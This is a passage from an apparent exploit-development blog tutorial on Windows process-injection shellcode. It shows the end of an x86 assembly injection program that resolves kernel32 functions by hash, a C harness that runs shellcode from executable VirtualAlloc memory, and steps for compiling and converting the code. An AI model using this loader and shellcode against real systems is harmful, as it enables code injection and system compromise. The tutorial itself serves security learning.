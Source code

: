         mov ebp, esp                        ; Set ebp as frame ptr for relative offset on stack
        call find_kernel32                  ; Find base address of kernel32.dll
        mov edx, eax                        ; Store base address of kernel32.dll in EDX
        jmp long win32_library_hashes
        win32_library_hashes_return:
        pop esi
        lea edi, [ebp+0x04]                 ; This is where we store our function addresses
        mov ecx, esi
        add ecx, 0x20                       ; Length of kernel32 hash list
        call resolve_symbols_for_dll
        call perform_injection
{% endhighlight %}
<p align="center">
    <em>Code Listing 21: Full x86 Injection Assembly Program</em>
</p>

## Testing it Out
In an earlier blog, I showed a different C program to run our compiled code. In this blog, another method will be shown. This method will allocate space for the code to run from and mark it as executable. This avoids the need to manipulate the compiled program to change the memory settings or disabling stack protection. The following code can handle both x86 and x64 machine code. This blog will demonstrate the process of compiling and preparing the code from a Linux system:

{% highlight c linenos %}
#include <windows.h> 

int main() 
{ 
#ifdef _WIN64 
   unsigned char buf[] =  
        "Replace_with_x64_payload";
#else 
   unsigned char buf[] =  
        "Replace_with_x86_payload"; 
#endif 
       void *func = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE); 
       memcpy(func, buf, sizeof buf); 
       ((void(*)())func)(); 
   return 0; 
}
{% endhighlight %}
<p align="center">
    <em>Code Listing 22: Machine Code Inection Harness</em>
</p>

To compile the assembly program:

{% highlight shell %}
nasm inject_code.asm -o inject_code.bin
{% endhighlight %}

To convert the binary file to escaped hexadecimal values that can be pasted into the above template, my [bin-to-opcodes.py](https://github.com/xenoscr/Python-Exploit-Snippets/blob/master/bin-to-opcodes.py) Python script can be used.
